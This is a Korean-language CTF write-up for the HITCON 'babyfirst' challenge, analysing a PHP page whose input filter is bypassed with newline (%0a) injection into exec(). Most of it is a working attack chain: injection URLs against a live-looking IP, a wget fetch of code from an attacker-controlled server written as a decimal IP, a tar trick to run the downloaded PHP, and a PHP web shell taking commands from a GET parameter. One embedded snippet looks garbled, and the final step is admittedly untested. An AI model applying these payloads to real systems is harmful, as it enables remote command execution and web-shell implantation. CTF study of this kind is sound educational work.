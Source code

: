 ============================================================================================================
[HITCON] babyfirst
============================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="index.php?args[]=a%0a&args[]=touch&args[]=test",arrowhead="normal"];
        step3 -> step2[label="test file create",arrowhead="normal"];
        step4 -> step5[label="index.php?args[]=a%0a&args[]=wget&args[]=3232235536",arrowhead="normal"];
        step7 -> step6[label="@solve",arrowhead="normal"];
    }

|

Source Analysis
============================================================================================================

인젝션 취약점이 존재할 수 있는 입력부분을 찾아 인젝션 존재 여부를 확인합니다.

웹 사이트에 접속하니 다음과 같이 php 코드가 보입니다. 

.. code-block:: php

    <?php
        highlight_file(__FILE__);
        $dir = 'sandbox/' . $_SERVER['REMOTE_ADDR'];
        if ( !file_exists($dir) )
            mkdir($dir);
        chdir($dir);
        $args = $_GET['args'];
        for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) )
            exit();
        }
        exec("/bin/orange" . implode(" ", $args));
    ?>

|

Array 취약점
============================================================================================================

일단 GET으로 args 파라미터를 쓸 수 있는데 args[]에 문자열 이외에는 값을 입력하지 못하도록 preg_match를 걸어놨네요.

하지만, args[] 문자열 끝에 %0a(LF)를 넣을 수 있습니다.

touch 명령어로 파일 생성을 한번 해봅니다.

.. code-block:: console
    
    http://52.68.245.164/index.php?
    args[]=a%0a&
    args[]=touch&
    args[]=test

    [실제 백엔드 동작]
    /bin/orange a%0a
    touch test

.. image:: ../_images/babyfirst-01_1.png
    :align: center


정상적으로 파일이 생성이 됩니다. 

|

wget을 통한 우회
============================================================================================================

wget으로 ip를 10진수 형식으로 변환해서 다운로드를 진행합니다. 

(여기서 로컬 테스트라고 가정해서 192.168.0.16=>3232235536으로 설정했습니다.)

.. code-block:: text

    ※ ip를 10진수로 바꿔야 하는 이유?

    코드를 보시면 아시겠지만 문자열을 제외한 모든 입력에 대해 제한이 걸려있기 때문에 .을 쓸 수가 없습니다. 그렇기 때문에 10진수로 바꿔서 wget을 진행합니다.

외부 접속이 가능한 ip에 웹 서버를 구축하고, index.php 파일을 하나 만들어 올립니다.

.. code-block:: php

    <?php
        print shell_exec($_GET["cmd"]);
    ?>
 
그리고 wget으로 해당 ip(10진수)를 지정해주면 해당 파일이 sandbox/ip/ 폴더에 저장됩니다.

.. code-block:: console

    http://52.68.245.164/index.php?
    args[]=a%0a&
    args[]=wget&
    args[]=3232235536

    [실제 백엔드 동작]
    /bin/orange a%0a
    wget 3232235536

여기서부터 또 하나 관문에 부딫혔습니다. wget을 쓸 경우 index.html로 고정되어 다운로드 된다는 점입니다. 

.. code-block:: text
    
    ※ wget으로 다운로드 시 index.html로 고정되면 안되는 이유?

    html 페이지로는 쉘을 실행할 수 없기 때문에 php 코드로 저장이 가능해야 합니다.
 

|

tar를 통한 우회
============================================================================================================

그렇다면 대시(-)나 점(.)을 쓰지 않고 우회할 수 있는 리눅스 쉘 명령을 실행하는 방법이 뭐가 있을 까요?
(라이트업을 보니 wget 대신 busybox ftpget, twistd telnet 을 쓴 것도 있네요.) 

php 소스가 있는 index.html을 새로 생성한 폴더에 다운로드한 후, 그 폴더를 tar를 통해 점이 없는 파일로 압축해서 점(.)을 우회하도록 합니다.

index.html

.. code-block:: bash
    
    <?
    phpfile_put_contents('shell.php', '    <?php    print shell_exec($_GET["cmd"]);    ?>');
    ?>

.. code-block:: text

    http://52.68.245.164/index.php?
    args[]=a%0a&
    args[]=mkdir&
    args[]=exploit%0a&
    args[]=cd&
    args[]=exploit%0a&
    args[]=wget&
    args[]=3232235536%0a&
    args[]=tar&
    args[]=cvf&
    args[]=archived&
    args[]=exploit%0a&
    args[]=php&
    args[]=archived

    /bin/orange a%0a
    mkdir exploit%0a
    cd exploit%0a
    wget 3232235536%0a
    tar cvf archived exploit%0a
    php archived

결국 대쉬(-)도 안쓰고 점(.)도 안쓰고 php 명령을 실행해서 shell.php 파일을 만들어내는군요.

테스트는 안해봤지만 아마 다음과 같이 쉘 명령을 실행할 수 있을 것으로 보입니다.

.. code-block:: bash

    http://52.68.245.164/sandbox/local_ip/shell.php?cmd=ls

